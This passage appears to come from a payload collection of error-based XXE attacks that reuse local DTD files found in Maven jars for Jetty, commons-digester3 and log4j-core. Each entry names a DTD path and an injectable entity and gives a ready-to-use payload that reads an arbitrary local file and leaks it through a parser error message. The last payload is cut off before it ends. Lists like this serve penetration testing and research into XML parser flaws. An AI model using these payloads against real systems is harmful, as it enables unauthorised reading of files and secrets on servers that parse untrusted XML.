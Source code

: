 **Injectable entity:** `%CONFIG`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/jetty/org.mortbay.jetty/5.1.4/org.mortbay.jetty-5.1.4.jar!/org/mortbay/xml/configure_1_0.dtd">

    <!ENTITY % CONFIG 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/commons/commons-digester3/3.2/commons-digester3-3.2.jar!/org/apache/commons/digester3/xmlrules/digester-rules.dtd`

**Injectable entity:** `%rule-elements`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/commons/commons-digester3/3.2/commons-digester3-3.2.jar!/org/apache/commons/digester3/xmlrules/digester-rules.dtd">

    <!ENTITY % rule-elements 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/logging/log4j/log4j-core/2.3/log4j-core-2.3.jar!/Log4j-events.dtd`

**Injectable entity:** `%documentElementAttributes`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/logging/log4j/log4j-core/2.3/log4j-core-2.3.jar!/Log4j-events.dtd">

    <!ENTITY % documentElementAttributes '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

```